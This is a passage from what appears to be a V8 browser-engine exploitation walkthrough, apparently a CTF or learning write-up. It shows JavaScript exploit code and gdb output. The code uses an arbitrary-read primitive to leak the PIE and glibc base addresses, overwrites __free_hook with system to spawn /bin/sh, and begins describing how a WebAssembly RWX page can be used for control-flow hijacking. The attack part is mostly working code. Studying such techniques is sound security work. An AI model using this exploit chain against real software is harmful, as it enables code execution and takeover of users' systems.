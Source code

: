 ```
let text_seg_ptr= arb_read(heap_base_addr + 0x2668n);
let pie_base_addr = text_seg_ptr - 0xBE9B5n;
console.log("[+] Leak a PIE pointer: 0x" + pie_base_addr.toString(16));
```

#### Leak glibc

Once we leak the PIE base, we can leak the `puts_got` symbol which is located at the `.got` segement and points to the function on the glibc page.

```
(gdb) got puts
GOT protection: Full RelRO | GOT functions: 228 
[0x5644e9dfe3b8] puts@GLIBC_2.2.5  →  0x7fd36c527970
```

```
let puts_got_addr = pie_base_addr + 0xD9A3B8n;
let puts_addr = arb_read(puts_got_addr);
let libc_base_addr = puts_addr - 0x80970n;
console.log("[+] Leak a libc pointer: 0x" + libc_base_addr.toString(16));
```

#### Overwrite the __free_hook to system

Then, we try to calculate the offset of `__free_hook` and `system` on within glibc.
```
(gdb) p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7f55961f08e8 <__free_hook>

(gdb) p system
$2 = {int (const char *)} 0x7f5595e52420 <__libc_system>
```

```
let free_hook_addr = libc_base_addr + 0x3ed8e8n;
let system_addr = libc_base_addr + 0x4f420n;
arb_write(free_hook_addr, system_addr);
%SystemBreak();

// OUTPUT CHECK
(gdb) p __free_hook
$1 = (void (*)(void *, const void *)) 0x7fc5e6103420 <__libc_system>
```

Then, we just need that following line which will trigger `system('/bin/sh')` when the `/bin/sh` string is being freed.
```
console.log("/bin/sh");
```

### Achieve Control-flow Hijacking: Create RWX page with WebAssembly

In earlier versions of V8, the engine would generate a read-write-execute (RWX) page for WebAssembly code. The `wasm_code` in the following snippet is a simple function `main`, that returns 42. This setup ensures V8 generates an `RWX` page. Once the function is invoked, V8 jumps to the starting address of the `RWX` page, which serves as a jump table, redirecting the control flow to the `main` function.
